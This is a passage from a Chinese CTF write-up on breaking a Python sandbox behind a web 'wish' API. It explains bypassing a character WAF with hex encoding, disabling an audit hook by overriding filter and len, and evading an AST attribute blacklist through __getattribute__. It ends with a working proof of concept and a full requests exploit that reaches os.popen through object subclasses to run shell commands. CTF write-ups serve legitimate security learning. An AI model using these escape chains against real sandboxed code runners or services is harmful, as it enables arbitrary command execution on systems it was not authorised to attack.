        output = sys.stdout.getvalue()
        error = sys.stderr.getvalue()
        if error:
            result_queue.put(("err", error))
        else:
            result_queue.put(("ok", output))
    except Exception:
        import traceback
        result_queue.put(("err", traceback.format_exc()))
```

这里就是主要的心愿代码执行的地方了，不过还限制了可用的内建函数

safe_grant函数最后会将执行的结果返回打印出来

回到app.py中

分为GET和POST两种请求方法，GET请求主要是用来获取wishes心愿的，这里的心愿是经过黑名单过滤处理的，POST请求主要是用于添加wish心愿的

大致可以知道需要干啥了，但是这么多安全层需要怎么去绕过呢？先逐步看一下这些WAF

### WAF绕过


很明显能看出，这层WAF是在safe_grant函数调用前，而safe_grant函数里面有一个转换编码的操作，所以尽管这里过滤掉了很多特殊字符，但是我们可以通过编码进行绕过

然后我们看看沙箱的绕过

### 沙箱绕过

```python
CODE = '''
def wish_checker(event,args):
    allowed_events = ["import", "time.sleep", "builtins.input", "builtins.input/result"]
    if not list(filter(lambda x: event == x, allowed_events)):
        raise Exception
    if len(args) > 0:
        raise Exception
addaudithook(wish_checker)
print("{}")
'''
```

审计钩子函数，在执行特定的事件的时候会被调用，这个钩子函数主要有两个限制：

1. 仅允许allowed_events中的四个事件：`import`导入模块，`time.sleep`时间延迟，`builtins.input`输入操作以及`builtins.input/result`输入结果
2. 要求参数的长度必须为0

通过filter检查事件是否是在允许事件列表中的事件和检查参数args的长度是否不大于0，否则会抛出异常

这里的漏洞关键在于什么呢？关注到这个钩子函数里面有很多内置函数例如filter、list、len等，而这些函数是可以在沙箱中进行访问和调用以及修改的

由于我们的代码是被注入到`print("{}")`的，而添加钩子函数的操作是在`addaudithook(wish_checker)`也就是在执行代码前，但是我们可以重新定义filter函数和len函数，这样就能让两个if的检查逻辑失效

修改filter函数

```python
import builtins
builtins.filter = lambda *args: [1] 
```

这样`list(filter())`就肯定是一个非空列表，也就能让if not为假

修改len函数

```bash
import builtins
builtins.len = lambda x: 0
```

这样 len(args) 就会永远是0，就能让if永远为假了

最终可以得出一个结论，钩子函数可以使其瘫痪

接着我们来看最后一个地方

### AST 访问器绕过

```python
class Wish_stone(ast.NodeVisitor):
    forbidden_wishes = {
        "__class__", "__dict__", "__bases__", "__mro__", "__subclasses__",
        "__globals__", "__code__", "__closure__", "__func__", "__self__",
        "__module__", "__import__", "__builtins__", "__base__"
    }

    def visit_Attribute(self, node):
        if isinstance(node.attr, str) and node.attr in self.forbidden_wishes:
            raise ValueError
        self.generic_visit(node)

    def visit_GeneratorExp(self, node):
        raise ValueError

SAFE_WISHES = {
    "print": print,
    "filter": filter,
    "list": list,
    "len": len,
    "addaudithook": sys.addaudithook,
    "Exception": Exception,
}
```

Wish_stone类继承于`ast.NodeVisitor`

#### 关于AST和AST访问器

对于AST，由于python是一门解释型语言，当python准备执行一段代码的时候，它会将代码解析成一个抽象语法树，这个树结构就是AST，而一个Attribute节点就类似于`my_obj.my_attr`，其中包含`my_obj`的引用和字符串`my_attr`

`ast.NodeVisitor`是一个可以遍历AST树的工具类，我们可以通过重写`visit_NodeType`方法来定义当遍历到某个特定类型的Attribute节点的时候要执行的操作

而`visit_Attribute`则是当代码中出现属性访问时会调用，`visit_GeneratorExp`是当代码中出现生成器表达式的时候调用

所以这里的操作逻辑就是：

- ``visit_Attribute` 会对AST中Attribute节点的字符串内容`node.attr`进行检查，禁用了通过 `. `运算符访问危险的属性例如(`__class__`和`__mro__`)
- `visit_GeneratorExp`会在代码里出现 **生成器表达式**时触发，例如`(x for x in range(10))`这种

例如以下的几种情况会被触发

```python
().__class__	node.attr是__class__
my_obj.__globals__	node.attr是__globals__
```

这里的绕过也很简单，，在python中obj.attr 实际上是 `obj.__getattribute__('attr') `的一种语法糖。那么我们就可以利用这个机制去绕过

#### 绕过方法

- 看了一下，`__getattribute__`方法不在黑名单中，那就可以通过`().____getattribute__`的方式去访问它
- 然后我们需要将属性访问转变为函数调用：

例如我们调用`().__class__`就需要变为`().__getattribute__('__class__')`，在python中，AST会将`__getattribute__`视作一个`attr`，而`__class__`是`args=[Constant(value='__class__')]`

例如我们测试一下

```python
import ast
print(ast.dump(ast.parse("().__getattribute__('__class__')"), indent=4))
"""
Module(
    body=[
        Expr(
            value=Call(
                func=Attribute(
                    value=Tuple(elts=[], ctx=Load()),
                    attr='__getattribute__',
                    ctx=Load()),
                args=[
                    Constant(value='__class__')],
                keywords=[]))],
    type_ignores=[])

"""
```

可以看到此时`__class__`是被视为参数的，从而绕过防御

但是需要注意的是，`__getattribute__`是无法连续调用的

```python
print("".__getattribute__('__class__').__getattribute__('__base__'))
"""
    print("".__getattribute__('__class__').__getattribute__('__base__'))
          ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
TypeError: expected 1 argument, got 0
"""
```

如果需要调用则需要

```python
a = "".__getattribute__('__class__')
print(a)
b = object.__getattribute__(a,'__base__')
print(b)
#<class 'str'>
#<class 'object'>
```

这是为什么呢？直接给出ai的解释了



意思就是，当我们从类中获取`__getattribute__`时，实际上是一个`type.__getattribute__`或者`object.__getattribute__`，此时这个方法需要两个参数，一个是对象名另一个是属性名，而如果是绑定的话只需要传入属性名就行了

但是object和type都没在沙箱中，但是我们可以利用一开始的filter函数的返回值或者len函数的返回值进行构造

#### 构造POC

```python
len = lambda x: 0
a = len.__getattribute__('__class__')
print(a)#<class 'function'>
b = a.__getattribute__(a,'__base__')
print(b)#<class 'object'>
c = a.__getattribute__(b,'__subclasses__')
print(c)#<built-in method __subclasses__ of type object at 0x00007FFF46523750>
#print(c())
d = c()[156].__init__
print(d)#<function _wrap_close.__init__ at 0x0000018CFB7E2C00>
e = b.__getattribute__(d,'__globals__')
print(e['popen']('whoami').read())#wanth3f1ag\23232

或者
filter = lambda *args: [1]
a = filter.__getattribute__('__class__')
print(a)#<class 'function'>
b = a.__getattribute__(a,'__base__')
print(b)#<class 'object'>
c = a.__getattribute__(b,'__subclasses__')
print(c)#<built-in method __subclasses__ of type object at 0x00007FFF46523750>
#print(c())
d = c()[156].__init__
print(d)#<function _wrap_close.__init__ at 0x0000018CFB7E2C00>
e = b.__getattribute__(d,'__globals__')
print(e['popen']('whoami').read())#wanth3f1ag\23232

```

所以最后的exp

#### 最后的exp

```python
import requests

def encode_unicode_escape(text):
    result = []
    for char in text:
        # 将每个字符转换为 \xHH 格式
        hex_code = format(ord(char), '02x')  # 转为2位十六进制
        result.append(f'\\x{hex_code}')
    return ''.join(result)

url = "http://019a8bd2-fe81-7712-a369-abbb3cf9f5af.geek.ctfplus.cn/"

while True:
    payload = '1");filter = lambda *args: [1];len = lambda x: 0;a = len.__getattribute__(\'__class__\');b = a.__getattribute__(a,\'__base__\');c = b.__getattribute__(b,\'__subclasses__\');d = c()[142].__init__;e = b.__getattribute__(d,\'__globals__\');print(e[\'popen\'](\'whoami\').read());print("'
    payload_encode = encode_unicode_escape(payload)
    json = {
        "wish" : payload_encode,
    }
    requests.post(url + "/api/wishes", json=json)
    res = requests.get(url + "/api/wishes")
    if len(res.json()['wishes']) > 6:
        print(res.json()['wishes'][6])
        break
```
